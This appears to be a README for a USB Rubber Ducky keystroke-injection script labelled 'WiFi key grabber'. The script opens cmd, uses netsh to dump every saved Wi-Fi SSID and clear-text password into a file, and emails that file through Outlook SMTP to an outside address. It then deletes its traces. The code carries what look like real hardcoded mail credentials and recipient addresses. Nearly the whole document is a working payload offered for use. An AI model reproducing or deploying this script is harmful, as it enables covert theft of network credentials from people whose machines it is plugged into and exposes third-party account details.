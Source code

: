 ### Change the following things:
* **ACCOUNT**: Your **hotmail/outlook account**
* **PASSWORD**: Your **hotmail/outlook password**
* **RECEIVER**: The email you want to send the content of Log.txt to

```
DELAY 1000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Get all SSID
STRING cd %USERPROFILE% & netsh wlan show profiles | findstr "All" > a.txt
ENTER
REM --> Create a filter.bat to get all the profile names
STRING echo setlocal enabledelayedexpansion^
ENTER
ENTER
STRING for /f "tokens=5*" %%i in (a.txt) do (^
ENTER
ENTER
STRING set val=%%i %%j^
ENTER
ENTER
STRING if "!val:~-1!" == " " set val=!val:~0,-1!^
ENTER
ENTER
STRING echo !val!^>^>b.txt) > filter.bat
ENTER
REM --> Run filter.bat and save all profile names in b.txt
STRING filter.bat
DELAY 300
ENTER
REM --> Save all the good stuff in Log.txt and delete the other garbage files
STRING (for /f "tokens=*" %i in (b.txt) do @echo     SSID: %i & netsh wlan show profiles name="%i" key=clear | findstr /c:"Key Content" & echo.) > Log.txt
ENTER
DELAY 1000
STRING del a.txt b.txt filter.bat
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp-mail.outlook.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('cacao_0777@hotmail.com', 'kelvin777')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'cacao_0777@hotmail.com'
ENTER
STRING $ReportEmail.To.Add('rmarias090@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER

```


### Note:

This script will grab not just the current SSID and password your computer is connecting to but every single SSID and password you have previously connected/saved on your computer. And it works even if the WiFi name contains special characters (such as a smiley face) or spaces. I'm not using gmail here because Google is pretty restrictive when it comes to 3rd party app authentication (let me know if it works with other mail server such as yahoo, zoho, etc)

You might want to adjust the DELAY depending on the system you are running e.g set a higher delay time if your system is slow.